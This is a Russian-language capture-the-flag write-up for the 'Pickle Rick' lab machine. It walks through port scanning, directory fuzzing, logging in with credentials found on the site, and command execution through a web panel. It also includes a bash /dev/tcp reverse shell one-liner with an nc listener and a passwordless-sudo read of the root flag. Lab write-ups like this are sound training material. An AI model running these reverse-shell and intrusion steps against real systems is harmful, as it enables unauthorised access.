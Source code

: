 # Writeup по машине [Pickle Rick]

## 1. Рекогносцировка

Сканируем порты и определяем сервисы:
```bash
nmap -sC -sV 10.10.226.50
```
Выявлено: []

## 2. Фаззинг директорий

Пробуем gobuster, но результата нет:
```bash
gobuster dir -u http://10.10.226.50/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Запускаем dirsearch c расширениями:
```bash
dirsearch -u http://10.10.226.50/ -e php,html,sql,py
```
Находим:
- `/logit.php`
- `/robots.txt` (содержит строку: `Wubbalubbadubdub`)
- `/index.html` (Username: `R1ckRul3s`)

## 3. Взлом логина

Пробуем авторизоваться через `/logit.php` с найденными данными.

## 4. Выполнение команд

Внутри поля ввода команд выполняем `ls -la` — находим файл `Sup3rS3cretPickl3Ingred.txt`.

Команда `cat` не сработала, но помогла команда `less`:

```bash
less Sup3rS3cretPickl3Ingred.txt
```
**Первый флаг получен!**

## 5. Получение реверс-шелла

Создаём обратное подключение (reverse shell), используя [revshells.com](https://www.revshells.com).

На атакующей машине:
```bash
rlwrap nc -nlvp 9999
```

На целевой:
```bash
bash -i >& /dev/tcp/10.10.x.x/9999 0>&1
```

**В качестве альтернативы**: можно было просто перейти по ссылке  
`http://10.10.53.48/Sup3rS3cretPickl3Ingred.txt`

## 6. Поиск второго флага

Выполняем:
```bash
ls
cd /home/rick/
cat 'second ingredients'
```
**Второй флаг найден!**

## 7. Привилегии и третий флаг

Проверяем sudo:
```bash
sudo -l
```
Видим, что можно запускать команды без пароля.

Получаем третий флаг:
```bash
sudo cat /root/3rd.txt
```
